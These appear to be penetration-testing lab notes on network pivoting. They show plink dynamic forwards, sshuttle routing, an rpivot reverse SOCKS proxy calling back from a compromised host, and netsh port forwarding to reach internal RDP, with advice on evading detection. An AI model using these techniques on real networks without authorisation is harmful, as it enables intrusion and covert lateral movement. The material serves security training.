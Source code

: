 # SSH for Windows: plink.exe
- Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.

```
Imagine that we are on a pentest and gain access to a Windows machine. We quickly enumerate the host and its security posture and determine that it is moderately locked down. We need to use this host as a pivot point, but it is unlikely that we will be able to pull our own tools onto the host without being exposed. Instead, we can live off the land and use what is already there. If the host is older and PuTTY is present (or we can find a copy on a file share), Plink can be our path to victory. We can use it to create our pivot and potentially avoid detection a little longer.
```
- That is just one potential scenario where Plink could be beneficial. We could also use Plink if we use a Windows system as our primary attack host instead of a Linux-based system.
## Getting To Know Plink
- In the below image, we have a Windows-based attack host.
![[plink.png]]
- The Windows attack host starts a plink.exe process with the below command-line arguments to start a dynamic port forward over the Ubuntu server. 
- This starts an SSH session between the Windows attack host and the Ubuntu server, and then plink starts listening on port 9050.
#### Using Plink.exe
```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```

# SSH Pivoting with Sshuttle
- [Sshuttle](https://github.com/sshuttle/sshuttle) is another tool written in Python which removes the need to configure proxychains.
- However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. 
- `Sshuttle` can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. 
- We can configure the Ubuntu server as a pivot point and route all of Nmap's network traffic with sshuttle.
- To use sshuttle, we specify the option `-r` to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through the pivot host, in our case, is the network 172.16.5.0/23.
#### Running sshuttle
```shell-session
AnuragTaparia@htb[/htb]$ sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

- With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.
```shell-session
AnuragTaparia@htb[/htb]$ nmap -v -sV -p3389 172.16.5.19 -A -Pn
```

- We can now use any tool directly without using proxychains.

# Web Server Pivoting with Rpivot
- [Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. 
- Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. 
- We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.
![[RPivot.png]]
- We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.
- We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.
#### Running server.py from the Attack Host
```shell-session
AnuragTaparia@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
- Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:
#### Transfering rpivot to the Target
```shell-session
AnuragTaparia@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
#### Running client.py from Pivot Target
```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

- We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.
- Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.
#### Browsing to the Target Webserver using Proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

# Port Forwarding with Windows Netsh
- [Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command-line tool that can help with the network configuration of a particular Windows system. 
- Here are just some of the networking related tasks we can use `Netsh` for:
	- Finding routes
	- Viewing the firewall configuration
	- Adding proxies
	- Creating port forwarding rules

- Let's take an example of the below scenario where our compromised host is a Windows 10-based IT admin's workstation (`10.129.15.150`,`172.16.5.25`). 
	- Keep in mind that it is possible on an engagement that we may gain access to an employee's workstation through methods such as social engineering and phishing. This would allow us to pivot further from within the network the workstation is in.
![[Netsh.png]]
- We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port. This can be performed using the below command.
#### Using Netsh.exe to Port Forward
```cmd-session
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```
- always check listenaddress (it is our attack host) and connectaddress (it is the internal address which we don't have access to)
#### Verifying Port Forward
```cmd-session
C:\Windows\system32> netsh.exe interface portproxy show v4tov4
```

- After configuring the `portproxy` on our Windows-based pivot host, we will try to connect to the 8080 port of this host from our attack host using xfreerdp. Once a request is sent from our attack host, the Windows host will route our traffic according to the proxy settings configured by netsh.exe.
```cmd-session
xfreerdp /v:10.129.15.150:8080 /u:victor /p:pass@123
```
